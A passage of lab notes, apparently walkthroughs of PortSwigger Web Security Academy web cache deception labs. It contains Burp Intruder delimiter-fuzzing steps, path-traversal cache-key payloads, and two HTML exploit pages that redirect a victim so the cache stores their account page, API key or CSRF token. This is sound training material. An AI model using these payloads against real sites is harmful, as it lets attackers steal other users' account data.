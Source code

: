 	1. 404 response but we get the response header `X-Cache:` indicating the response is cached by the server
5. Fuzz for a delimiter to truncate the request
6. Send request using payload from step 4 to intruder
- We need to make sure each request is unique when the cache interprets the request as to not hit the cache rule. We can do this by appending a random value to a random parameter at the end of the URL so the cache key is never the same
- Payload: `/my-account<payload_1>%2f%2e%2e%2fresources?foo=<payload_2>`
	1. Attack type: Pitchfork
	2. Payload 1: Web cache delimiter wordlist
	3. Payload 2: Numbers 0 - 66
	4. Disable URL-encoding
	5. Start attack
- Notice that URL encoded `#` returns the `/my-account` endpoint and the response is cached
1. Construct malicious HTML document on exploit server using the URL encoded `#`
```html
<html>
<head></head>
<body>
<script type="text/javascript">
document.location = "https://0a7c003f034e0baf85efc7480068006e.web-security-academy.net/my-account%23%2f%2e%2e%2fresources?foo=34";
</script>
</body>
</html>
```
2. Send payload to target
3. Navigate to the URL `/my-account%23%2f%2e%2e%2fresources?foo=34`
	1. 200 response and we see `X-Cache: hit` in the HTTP response headers along with Carlos' API key
# Exploiting exact-match cache rules for web cache deception
- Change the email address of `administrator`
- Use the credentials `wiener:peter`
- Use PortSwigger's delimiter list
1. Authenticate
2. Param Miner > Settings > Enable "Add dynamic cachebuster"
3. View `/my-account` page and see that there is a CSRF token in the HTTP response which is part of the `change-email` function
4. Make a `GET` request on the web root for `robots.txt` and see that we get `X-Cache: miss` in the HTTP response header, this indicates the cache server is caching `robots.txt`
5. Test for a discrepancy between the cache server and the origin server using a URL-encoded dot-segment request - `/my-account%2f%2e%2e%2frobots.txt`
	- 404 received and `X-Cache: miss` returned in HTTP response. This indicates the origin server did not resolve the dot-segment while the cache server did
6. Fuzz for a delimiter using Intruder
	1. Use the following fuzz payload `/my-account<delim>%2f%2e%2e%2frobots.txt?foo=<bar>`
	2. Attack type: Pitchfork
	3. `<delim>`: Delimiter wordlist (Disable payload encoding)
	4. `bar`: Numbers (0-66)
7. Start Attack
8. Identify `;` as a valid delimiter. We see our profile page and the response is cached
9. Go to exploit server
10. Craft a malicious page
```html
<html>
<head></head>
<body>
<script type="text/javascript">
document.location = "https://0af8009503ce14d482d7475f00ac004e.web-security-academy.net/my-account;%2f%2e%2e%2frobots.txt?foo=aaa";
</script>
</body>
</html>
```